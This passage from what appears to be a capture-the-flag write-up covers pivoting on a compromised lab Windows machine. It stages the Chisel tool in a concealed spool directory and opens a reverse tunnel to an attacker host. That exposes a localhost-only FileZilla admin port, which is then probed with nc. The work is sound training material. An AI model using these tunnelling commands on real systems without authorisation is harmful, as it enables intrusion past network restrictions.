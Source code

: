 
I tried to break that hash, but failed. I’ll look at the hash in Beyond Root.
I can also confirm the listening admin port:

    
    
    <Item name="Admin port" type="numeric">14147</Item>
    

### Create Tunnels

To interact with this service running on localhost, I’ll use
[Chisel](https://github.com/jpillora/chisel). I already have a copy of the
windows exe sitting in `\share`, so I can copy that to Json (I like the
`\windows\system32\spool\drivers\color` directory), and then make the
connection.

On Commando, it looks like:

    
    
    PS > .\chisel_windows_amd64.exe server -p 8000 --reverse
    2019/10/03 17:52:52 server: Reverse tunnelling enabled
    2019/10/03 17:52:52 server: Fingerprint b7:e8:cd:00:71:e1:a9:ed:64:4a:99:c7:ad:b2:6d:20
    2019/10/03 17:52:52 server: Listening on 0.0.0.0:8000...
    2019/10/03 18:21:44 server: proxy#1:R:0.0.0.0:223=>localhost:14147: Listening
    

On Json:

    
    
    c:\Windows\System32\spool\drivers\color>c.exe client 10.10.14.10:8000 R:223:localhost:14147
    c.exe client 10.10.14.10:8000 R:223:localhost:14147
    2019/10/03 17:06:26 client: Connecting to ws://10.10.14.10:8000
    2019/10/03 17:06:26 client: Fingerprint b7:e8:cd:00:71:e1:a9:ed:64:4a:99:c7:ad:b2:6d:20
    2019/10/03 17:06:26 client: Connected (Latency 31.3391ms)
    

If I test the tunnel with `nc`, I see that I can connect, but it’s clearly not
the intended method:

    
    
    PS > nc 127.0.0.1 223
    FZS `    @       ~   You appear to be behind a NAT router. Please configure the passive mode settings and forward a range of ports in your router.D   Warning: FTP over TLS is not enabled, users cannot securely log in.
       à    ::15┴  Z    z╒░=PN(000133)- (not logged in) (::1)> Connected on port 21, sending welcome message...J   z╒░=PN(000133)- (not logged in) (::1)> 220-FileZilla Server 0.9.60 betad   z╒░=PN(000133)- (not logged in) (::1)> 220-written by Tim Kosse (tim.kosse@filezilla-project.org)Y   z╒░=PN(000133)- (not logged in) (::1)> 220 Please visit https://filezilla-project.org/   Å   9   z╒░hƒQ(000133)- (not logged in) (::1)> USER superadminN   z╒░hƒQ(000133)- (not logged in) (::1)> 331 Password required for superadmin   &       
    7   z╒ ┼=U(000133)- (not logged in) (::1)> PASS ********J   z╒ ┼=U(000133)- (not logged in) (::1)> 530 Login or password incorrect!7    z╒ ┼=U(000133)- (not logged in) (::1)> disconnected.   à      "       
    

### FileZilla Server
